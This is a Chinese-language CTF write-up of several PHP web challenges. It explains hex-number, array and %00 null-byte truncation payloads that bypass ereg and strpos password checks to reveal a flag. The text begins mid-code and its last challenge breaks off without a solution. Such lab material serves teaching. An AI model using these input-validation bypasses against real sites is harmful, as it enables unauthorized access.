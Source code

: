 ```
}
$temp = $_GET['password'];
echo noother_says_correct($temp);
?>
```
传入password转化为temp
之后进行操作

php转码把16进制转化为10进制
3735929054转换成16进制为0xdeadc0de，记得带上0x；
payload:?password=0xdeadc0de

### 变量覆盖
打开发现503错误，无法做题
### ereg正则%00绕过
源码
```
<?php
$flag = "xxx";
if (isset ($_GET['password']))
{
if (ereg ("^[a-zA-Z0-9]+$", $_GET['password']) === FALSE)
{
echo 'You password must be alphanumeric';
}
else if (strlen($_GET['password']) < 8 && $_GET['password'] > 9999999)
{
if (strpos ($_GET['password'], '-') !== FALSE) //strpos — 查找字符串首次出现的位置
{
die('Flag: ' . $flag);
}
else
{
echo('- have not been found');
}
}
else
{
echo 'Invalid password';
}
}
?>
```
ereg()的正则限限制了多个数字或者大小写字母
strpos()则是查找'-'
1.数组绕过
    payload:?password[]=1
2.%00截断绕过
    payload:?password=1e9%00*-*
### strpos数组绕过
源码
```
<?php
$flag = "flag";
if (isset ($_GET['ctf'])) {
if (@ereg ("^[1-9]+$", $_GET['ctf']) === FALSE)
echo '必须输入数字才行';
else if (strpos ($_GET['ctf'], '#biubiubiu') !== FALSE)
die('Flag: '.$flag);
else
echo '骚年，继续努力吧啊~';
}
```
